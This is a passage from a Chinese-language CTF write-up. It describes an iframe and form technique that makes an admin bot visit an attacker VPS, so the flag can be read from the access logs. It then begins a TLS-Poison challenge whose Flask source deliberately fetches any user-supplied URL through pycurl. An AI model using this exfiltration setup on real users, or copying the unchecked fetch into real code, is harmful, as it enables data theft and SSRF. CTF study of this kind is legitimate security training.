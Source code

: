         ```html
        <html>
          <!-- 2.html -->
          <iframe name=lll src="3.html">
        </html>
        ```
    3. 3.html中可以获取到aaa.ggg,它的值就是`this_is_what_i_want`
        
        ```html
        <html>
           <!-- 3.html -->
           <form id=aaa>
              <input name="ggg" type="submit" value="this_is_what_i_want"/>
          </form>
        </html>
        ```
    4. 最后将这三个html放到vps下,让admin进行访问http://vps:port/1.html即可
    5. 查看http://vps:port的访问记录即可获得admin携带flag访问的请求
2. 此外还可以直接将全部iframe写到iframe属性`srcdoc`中

ToLeSion
--------

题目描述

```php
“亲爱的actfer：
见字如晤！我在火热的杭州，希望你们可以快点AK web题，然后与我们相遇。
因为我们真的很羡慕你的才华，你是我探索ctf世界的动力，是我肾上腺素飙升的催化剂！
让我帮你看看那天空中挥舞着的旗帜，然后下来告诉你上面的风景有多美，上面的空气有多清新
，上面的风有多温柔！期待与你们的相遇！爱你们的lesion～”
http://123.60.131.135:10023
```

这题涉及到了TLS的会话复用,首先可以去看这篇文章了解一下FTPS如何通过隐式连接完成会话复用: [TLS-Poison 攻击方式在 CTF 中的利用实践](http://blog.zeddyu.info/2021/05/19/tls-ctf/)

源码如下:

```python
from flask import Flask, request, redirect
from flask_session import Session
from io import BytesIO
import memcache
import pycurl
import random
import string

app = Flask(__name__)
app.debug = True
app.secret_key = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(56))

app.config['SESSION_TYPE'] = 'memcached'
app.config['SESSION_PERMANENT'] = True# 如果设置为True，则关闭浏览器session就失效。
app.config['SESSION_USE_SIGNER'] = False# 是否对发送到浏览器上session的cookie值进行加密
app.config['SESSION_KEY_PREFIX'] = 'actfSession:'# 保存到session中的值的前缀
app.config['SESSION_MEMCACHED'] = memcache.Client(['127.0.0.1:11200'])# 用于连接memcached的配置

Session(app)

@app.route('/')
def index():
    buffer=BytesIO()
    if request.args.get('url'):
        url = request.args.get('url')
        c = pycurl.Curl()
        c.setopt(c.URL, url)
```